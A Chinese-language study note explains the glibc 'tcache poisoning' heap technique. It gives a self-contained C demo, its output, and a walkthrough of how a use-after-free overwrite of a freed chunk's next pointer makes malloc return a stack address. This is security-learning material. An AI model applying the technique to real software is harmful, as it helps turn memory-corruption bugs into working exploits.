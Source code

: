 ```c
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <assert.h>

int main()
{
	// disable buffering
	setbuf(stdin, NULL);
	setbuf(stdout, NULL);

	printf("This file demonstrates a simple tcache poisoning attack by tricking malloc into\n"
		   "returning a pointer to an arbitrary location (in this case, the stack).\n"
		   "The attack is very similar to fastbin corruption attack.\n");
	printf("After the patch https://sourceware.org/git/?p=glibc.git;a=commit;h=77dc0d8643aa99c92bf671352b0a8adde705896f,\n"
		   "We have to create and free one more chunk for padding before fd pointer hijacking.\n\n");

	size_t stack_var;
	printf("The address we want malloc() to return is %p.\n", (char *)&stack_var);

	printf("Allocating 2 buffers.\n");
	intptr_t *a = malloc(128);
	printf("malloc(128): %p\n", a);
	intptr_t *b = malloc(128);
	printf("malloc(128): %p\n", b);

	printf("Freeing the buffers...\n");
	free(a);
	free(b);

	printf("Now the tcache list has [ %p -> %p ].\n", b, a);
	printf("We overwrite the first %lu bytes (fd/next pointer) of the data at %p\n"
		   "to point to the location to control (%p).\n", sizeof(intptr_t), b, &stack_var);
	b[0] = (intptr_t)&stack_var;
	printf("Now the tcache list has [ %p -> %p ].\n", b, &stack_var);

	printf("1st malloc(128): %p\n", malloc(128));
	printf("Now the tcache list has [ %p ].\n", &stack_var);

	intptr_t *c = malloc(128);
	printf("2nd malloc(128): %p\n", c);
	printf("We got the control\n");

	assert((long)&stack_var == (long)c);
	return 0;
}
```



```
This file demonstrates a simple tcache poisoning attack by tricking malloc into
returning a pointer to an arbitrary location (in this case, the stack).
The attack is very similar to fastbin corruption attack.
After the patch https://sourceware.org/git/?p=glibc.git;a=commit;h=77dc0d8643aa99c92bf671352b0a8adde705896f,
We have to create and free one more chunk for padding before fd pointer hijacking.

The address we want malloc() to return is 0x7ffd7c487e68.
Allocating 2 buffers.
malloc(128): 0x55c012b76260
malloc(128): 0x55c012b762f0
Freeing the buffers...
Now the tcache list has [ 0x55c012b762f0 -> 0x55c012b76260 ].
We overwrite the first 8 bytes (fd/next pointer) of the data at 0x55c012b762f0
to point to the location to control (0x7ffd7c487e68).
Now the tcache list has [ 0x55c012b762f0 -> 0x7ffd7c487e68 ].
1st malloc(128): 0x55c012b762f0
Now the tcache list has [ 0x7ffd7c487e68 ].
2nd malloc(128): 0x7ffd7c487e68
We got the control
```

这个 demo 演示的是有 tcache 的情况下的 use after free

先分配了两个符合 tcache 大小的 chunk

```c
	intptr_t *a = malloc(128);
    intptr_t *b = malloc(128);
```

然后 free 掉他们

```c
	free(a);
	free(b);
```

这个时候 a 和 b 都会进入同一条 tcache（一样大小的 chunk，tcache 也没有满）

![image-20201125003506465](image-20201125003506465.png)

![image-20201125003723919](image-20201125003723919.png)

tcache 中的 chunk 的 next 指针域是位于 chunk 的 fd 的位置，所以，b 的  next 字段指向的是 a

当 free b 后不把 b 置 NULL，还是可以向 b 所指的区域写入，而写入的东西会覆盖位于 tcache 中的 b chunk 的 next 指针，我们把 stack_var 的地址写上去

![image-20201125004329186](image-20201125004329186.png)

就会导致 stack_var 被放入 tcache 链中，2.27 的 glibc 从 tcache 中取出 chunk 是没有任何检查的，然后只要再 malloc 两次就能得到 stack_var 的地址

```
Now the tcache list has [ 0x5555555592f0 -> 0x7fffffffdf18 ].
1st malloc(128): 0x5555555592f0
Now the tcache list has [ 0x7fffffffdf18 ].
2nd malloc(128): 0x7fffffffdf18
We got the control
```

